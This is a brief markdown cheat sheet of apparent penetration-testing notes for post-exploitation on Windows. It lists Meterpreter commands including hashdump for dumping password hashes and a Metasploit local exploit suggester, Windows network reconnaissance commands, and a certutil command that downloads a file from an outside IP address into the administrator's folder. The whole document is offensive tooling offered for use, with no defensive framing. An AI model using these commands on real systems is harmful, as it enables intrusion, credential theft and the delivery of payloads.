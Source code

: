## Meterpreter
### getuid
### sysinfo
### hashdump
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```

## Cmd
### route print
### netstat -ano
### arp -a
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
